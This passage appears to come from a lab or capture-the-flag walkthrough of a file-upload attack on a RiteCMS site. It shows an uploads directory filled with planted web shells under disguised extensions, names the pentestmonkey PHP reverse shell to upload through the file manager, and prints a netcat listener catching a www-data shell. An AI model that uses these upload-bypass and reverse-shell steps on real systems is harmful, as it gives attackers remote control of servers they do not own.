 ```

-rwxrwxr-x 1 root www-data 43333 Nov 24 2020 deanna_alys.jpg

-rw-r--r-- 1 www-data www-data 45 Apr 17 02:30 idk.pHp

-rw-r--r-- 1 www-data www-data 45 Apr 17 02:32 idk.phtml

-rw-r--r-- 1 www-data www-data 34282 Apr 17 02:28 ishell.php

-rwxrwxr-x 1 root www-data 24697 Nov 24 2020 jesus_kiteque.jpg

-rw-r--r-- 1 www-data www-data 5495 Apr 17 01:53 php-reverse-shell.phtml

-rw-r--r-- 1 www-data www-data 5495 Apr 17 01:54 php.png

-rwxrwxr-x 1 root www-data 55791 Nov 25 2020 product_devin_avery.jpg

-rwxrwxr-x 1 root www-data 16885 Nov 25 2020 product_devin_avery_s.jpg

-rwxrwxr-x 1 root www-data 37668 Apr 5 22:56 ritecms36.png

-rw-r--r-- 1 www-data www-data 34282 Apr 17 02:18 shell.php

-rwxrwxr-x 1 root www-data 2668638 Apr 5 22:46 slide1.png

-rwxrwxr-x 1 root www-data 2398456 Apr 5 22:47 slide2.png

-rwxrwxr-x 1 root www-data 4676969 Apr 5 22:49 slide3.png

-rwxrwxr-x 1 root www-data 5066739 Apr 5 22:50 slide4.png

-rwxrwxr-x 1 root www-data 2450605 Apr 5 22:52 slide5.png

drwxrwxr-x 2 root www-data 4096 Jan 19 2019 smilies

-rw-r--r-- 1 www-data www-data 10 Apr 17 02:20 state.php

-rw-r--r-- 1 www-data www-data 45 Apr 17 02:22 test1.php

-rw-r--r-- 1 www-data www-data 5495 Apr 17 02:33 test2.php

-rw-r--r-- 1 www-data www-data 1591 Apr 17 02:03 webshell.php
```

I used the php reverse shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

upload it the file manager and use the path of the file

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4646
listening on [any] 4646 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59596
Linux ubuntu-s-1vcpu-1gb-nyc1-01 5.4.0-107-generic #121-Ubuntu SMP Thu Mar 24 16:04:27 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 02:42:50 up  1:01,  1 user,  load average: 0.43, 0.51, 0.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    198.211.111.194  01:44   48.00s  0.16s  0.16s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (766): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-s-1vcpu-1gb-nyc1-01:/$

```